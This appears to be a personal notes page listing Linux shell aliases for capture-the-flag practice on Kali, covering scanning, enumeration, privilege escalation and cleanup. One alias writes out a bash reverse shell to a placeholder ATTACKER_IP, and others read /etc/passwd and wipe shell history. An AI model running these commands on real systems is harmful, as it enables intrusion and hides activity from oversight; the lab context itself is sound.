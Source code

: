 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#network-security"
  - "#linux-hardware"
  - "#ctf"
  - "#kali-linux"
  - "#shell-aliases"
  - "#programming"
  - "#python"
  - "#learning"
  - "#shell-scripting"
description:
author:
created: Sunday, June 29th 2025, 12:31:31 am
source:
title: 🧠 CTF Linux Shell Aliases
date modified: Sunday, June 29th 2025, 12:43:38 am
---
```


Here’s a comprehensive list of **Linux shell aliases** tailored for CTF (Capture The Flag) players, especially those working in **Kali Linux** or **Parrot OS** environments. These aliases are meant to **speed up reconnaissance, enumeration, exploitation, privilege escalation, and cleanup** tasks.

---

# CTF Linux Shell Aliases

You can place these in your `.bashrc`, `.zshrc`, or a dedicated file like `~/.ctf_aliases` and source it:

```bash
source ~/.ctf_aliases
```

---

## 🔎 Recon & Enumeration

```bash
alias ports='netstat -tuln | grep LISTEN'
alias ipinfo='ip a && ip r'
alias myip='curl -s ifconfig.me'
alias whatweb='whatweb -v'
alias nmapf='nmap -sC -sV -T4 -oN nmap_full'
alias nmapq='nmap -sS -T4 -p- --min-rate=1000'
alias nmapudp='nmap -sU -T4 -p- --min-rate=1000'
alias gobusterd='gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt'
alias gobusters='gobuster dns -d DOMAIN -w /usr/share/wordlists/dns/namelist.txt'
alias ffufd='ffuf -u http://TARGET/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200'
alias waf='wafw00f http://TARGET'
alias header='curl -I http://TARGET'
```

---

## 📁 File Operations

```bash
alias l='ls -lh --color=auto'
alias la='ls -lah --color=auto'
alias ..='cd ..'
alias ...='cd ../..'
alias extract='dtrx'
alias getflag='find / -name flag\* 2>/dev/null'
alias getperm='find / -perm -4000 2>/dev/null'
```

---

## 🧱 Web & HTTP

```bash
alias serve='python3 -m http.server 8000'
alias phpserve='php -S 0.0.0.0:8000'
alias httplog='sudo tcpdump -A -i any port 80 or port 443'
alias burp='java -jar ~/tools/burpsuite.jar'
alias curlpost='curl -X POST -d'
alias ua='curl -A "Mozilla/5.0"'
```

---

## 🧰 Exploitation & Scripting

```bash
alias pwncat='rlwrap nc -lvnp'
alias revip='ip a | grep -E "inet\s"'
alias revsh='bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
alias shellz='python3 -c "import pty; pty.spawn(\'/bin/bash\')"'
alias upgrade='python3 -c "import pty; pty.spawn(\"/bin/bash\")"' # After running, manually type: export TERM=xterm
alias suidbin='find / -perm -4000 -type f 2>/dev/null'
alias linpeas='./linpeas.sh | tee linpeas.log'
```

---

## 📈 Privilege Escalation

```bash
alias checkperm='find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null'
alias pshell='python3 -c "import pty;pty.spawn(\'/bin/bash\')"'
alias suidlist='find / -type f -perm -04000 -ls 2>/dev/null'
alias gtfo='xdg-open https://gtfobins.github.io'
alias sudoers='sudo -l'
alias chkcron='ls -la /etc/cron*'
alias chkpasswd='cat /etc/passwd | grep sh$'
```

---

## 🛜 Network Utilities

```bash
alias myports='ss -tulwn'
alias sniff='sudo tcpdump -i any -nn'
scanlive() {
  local subnet=${1:-192.168.1}
  for ip in $(seq 1 254); do
    ping -c1 "${subnet}.${ip}" | grep "64 bytes" &
  done
  wait
}
alias dnslookup='dig +short'
alias whoisall='whois $(whoami)@$(hostname)'
```

---

## 🔧 Automation & Tools

```bash
alias autorev='searchsploit $(file target | cut -d ":" -f2)'
alias httpx='cat urls.txt | httpx -title -status -tech-detect -favicon'
alias amassenum='amass enum -passive -d DOMAIN'
alias subfinder='subfinder -d DOMAIN -silent'
```

---

## 🧼 Cleanup

```bash
alias cleanup='history -c && history -w && rm -f ~/.bash_history'
alias killpy='pkill -f python3'
alias clearlogs='> ~/.bash_history && history -c && unset HISTFILE'
```

---

## 🧪 Dev & Script Shortcuts

```bash
alias py='python3'
alias ipy='ipython'
alias e='nano'
alias p='ping'
alias c='clear'
alias gs='git status'
alias gd='git diff'
```

---

## 📂 Custom CTF Folder Management

```bash
alias ctftemp='mkdir -p ~/ctf && cd ~/ctf'
alias bandit='ssh bandit0@bandit.labs.overthewire.org -p 2220'
```

---

## 📜 Load These Aliases

To make these aliases persistent:

### 1. Save to `.ctf_aliases`

```bash
nano ~/.ctf_aliases
```

Paste the list you want. Then add this line to your `.bashrc` or `.zshrc`:

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Reload Shell

```bash
source ~/.bashrc
# or
source ~/.zshrc
```

---

## 🔍 References & Further Learning

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
    
- [GTFOBins](https://gtfobins.github.io/)
    
- [HackTricks](https://book.hacktricks.xyz/)
    
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
    
- [awesome-ctf](https://github.com/apsdehal/awesome-ctf)
    
- [exploit-database](https://www.exploit-db.com/)
    
- [revshells.com](https://www.revshells.com/) (great reverse shell generator)

---
